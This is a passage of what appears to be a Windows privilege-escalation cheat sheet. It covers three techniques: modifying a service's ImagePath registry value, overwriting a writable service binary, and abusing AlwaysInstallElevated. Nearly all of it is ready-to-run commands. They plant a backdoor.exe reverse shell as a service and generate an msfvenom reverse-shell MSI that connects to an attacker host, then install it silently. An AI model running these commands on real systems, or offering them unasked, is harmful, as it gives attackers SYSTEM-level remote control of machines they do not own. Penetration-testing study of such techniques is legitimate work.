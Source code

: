 ```bash
#     ImagePath    REG_EXPAND_SZ    %SystemRoot%\system32\svchost.exe -k LocalServiceAndNoImpersonation
#     ...

# update ImagePath to point to our reverse shell payload
reg add HKLM\System\CurrentControlSet\Services\upnphost /v ImagePath /t REG_EXPAND_SZ /d C:\Windows\Temp\backdoor.exe /f
# Start netcat listener to catch the reverse shell and start the service
net start "upnphost" # net stop "upnphost" first if the service is already running.
```


#### Weak Service Executable File Permissions Exploitation

```sh
# verifying we can overwrite and existing service binary file 
icacls "C:\Program Files\Heisenburg\knocks.exe"  # or .\accesschk.exe /accepteula -uvwq "C:\Program Files\Heisenburg\knocks.exe"

# Example output if (builtin\users or EVERYONE) has ( (I) or (F) ) on "C:\Program Files\Heisenburg":
#                  Everyone:(F)
#                  BUILTIN\Users:(I)(RX) 
# Example output for accesschk.exe:
#  RW BUILTIN\Users
#        FILE_ALL_ACCESS

# backup original executable
copy "C:\Program Files\Heisenburg\knocks.exe"  C:\Temp\

# Create reverse shell binary and overwrite the existing one
copy /Y C:\Temp\backdoor.exe "C:\Program Files\Heisenburg\knocks.exe" 
# Start netcat listener to catch the reverse shell and start the service
net start "heisenburgsvc" # net stop "heisenburgsvc" first if the service is already running.
```


#### AlwaysInstallElevated privilege Escalation

```sh
# This will only work if both registry keys contain "AlwaysInstallElevated" value 0x1.

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# if the conditions are met we can exploit this now

# generate reverse shell msi payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<MY-IP> LPORT=<MY-PORT> -f msi -o shell.msi

# copy the binary over to target, start a listener and exec
msiexec /quiet /qn /i C:\Temp\shell.msi
```
